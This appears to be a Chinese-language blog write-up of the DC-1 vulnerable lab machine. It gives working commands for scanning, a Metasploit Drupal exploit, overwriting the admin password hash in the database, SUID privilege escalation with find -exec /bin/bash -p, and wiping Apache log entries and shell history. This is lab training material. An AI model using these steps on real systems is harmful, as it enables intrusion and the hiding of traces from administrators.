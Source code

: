 ```yaml
---
layout: post
title: DC-1
subtitle: DC-1
date: 2025-07-07 14:59
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
published: true
---
```

## 信息搜集

### 主机发现

```
arp-scan -l
namp -T4 -A -p- 192.168.163.131 # 扫描端口
dirb http://192.168.163.131 # 扫描目录
whatweb -v 192.168.163.131
```

### 渗透
```shell
msfconsole
> search drupal
> use <id>
> set payload payload/...
> set rhosts <ip>
> options
> run
```
#### 获取flag1
![Pasted%20image%2020250707150809.png500](https://img.ghostliner.top/arJvR1.png)
提示查找配置文件
#### 获取flag2

```shell
shell
python -c "import pty;pty.spawn('/bin/bash')" #优化显示
find . -name "set*" #搜索设置文件
```

![Pasted%20image%2020250707150929.png500](https://img.ghostliner.top/MCGvyt.png)
![Pasted%20image%2020250707151035.png500](https://img.ghostliner.top/LVs8FM.png)

#### 获取flag3

获取到数据库信息
```
'database' => 'drupaldb',
'username' => 'dbuser',
'password' => 'R0ck3t',
```

```shell
mysql -h 127.0.0.1 -P 3306 -u dbuser -pR0ck3t
```

```mysql
use drupaldb;
show tables;
show columns from users;
select * from users where uid=1;
update users set pass="$S$DQCOKBJdDlel6L.ZfV1tYbTccflz6hwDisRxE25daht/qoX.Bb6g" where uid=1;
```

```shell
find . -name "*.sh"
./scripts/password-hash.sh 123
# admin原密码 $S$DvQI6Y600iNeXRIeEMF94Y6FvN8nujJcEDTCP9nS5.i38jnEKuDR
# 现密码(123) $S$DQCOKBJdDlel6L.ZfV1tYbTccflz6hwDisRxE25daht/qoX.Bb6g
```

admin登录，搜索页面发现flag3
![Pasted%20image%2020250707155935.png500](https://img.ghostliner.top/btkBWY.png)
#### 获取flag4

```shell
cat /etc/passwd
ls /home/flag4
cat /home/flag4/flag4.txt
```
![Pasted%20image%2020250707151856.png|500](https://img.ghostliner.top/Tw3JiS.png)
![Pasted%20image%2020250707151953.png|500](https://img.ghostliner.top/Gq0tZA.png)
#### 获取flag5

按提示提权

```
find / -perm -4000 2>/dev/null # 判断是否能提权
find / -perm -u=s -type f  2>/dev/null
find / -exec "/bin/bash" -p \; # 提权
```

![提权成功|500](https://img.ghostliner.top/tMPT5d.png)

提权成功，获取flag5

![Pasted%20image%2020250707161219.png|500](https://img.ghostliner.top/weYUZl.png)

## 痕迹清除

### 网站日志清除

```shell
find /  -type f -name "access*"
sed -i '/192.168.163.132/d' /var/log/apache2/access.log
find /  -type f -name "error*"
sed -i '/192.168.163.132/d' /var/log/apache2/error.log
```
### 数据库恢复和日志清除

![Pasted%20image%2020250707165639.png](https://img.ghostliner.top/rDCHQO.png)

```mysql
show global variables like "%log%";
```

### history

```shell
history -c
```